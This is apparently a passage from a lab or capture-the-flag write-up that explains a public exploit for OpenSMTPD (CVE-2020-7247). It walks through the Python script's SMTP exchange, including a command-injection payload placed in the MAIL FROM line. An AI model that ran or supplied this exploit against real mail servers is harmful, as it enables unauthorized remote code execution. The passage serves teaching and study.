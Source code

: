 ### Exploit

Googling for “opensmtpd exploit” returns a remote code execution exploit from
[Exploit-DB](https://www.exploit-db.com/exploits/47984), CVE-2020-7247. It’s a
Python script, but looking at it, it looks like a simple command injection in
the `MAIL FROM` line. It connects to the server, and then reads the Hello
string:

    
    
    res = s.recv(1024)
    if 'OpenSMTPD' not in str(res):
        print('[!] No OpenSMTPD detected')
        print('[!] Received {}'.format(str(res)))
        print('[!] Exiting...')
        sys.exit(1)
    

It sends a `HELO` response:

    
    
    print('[*] OpenSMTPD detected')
    s.send(b'HELO x\r\n')
    res = s.recv(1024)
    if '250' not in str(res):
        print('[!] Error connecting, expected 250')
        print('[!] Received: {}'.format(str(res)))
        print('[!] Exiting...')
        sys.exit(1)
    

It sends the payload:

    
    
    print('[*] Connected, sending payload')
    s.send(bytes('MAIL FROM:<;{};>\r\n'.format(CMD), 'utf-8'))
    res = s.recv(1024)
    if '250' not in str(res):
        print('[!] Error sending payload, expected 250')
        print('[!] Received: {}'.format(str(res)))
        print('[!] Exiting...')
        sys.exit(1)
    

Then it sends the rest of the fields and exits:

    
    
    print('[*] Payload sent')
    s.send(b'RCPT TO:<root>\r\n')
    s.recv(1024)
    s.send(b'DATA\r\n')
    s.recv(1024)
    s.send(b'\r\nxxx\r\n.\r\n')
    s.recv(1024)
    s.send(b'QUIT\r\n')
    s.recv(1024)
    print('[*] Done')
    
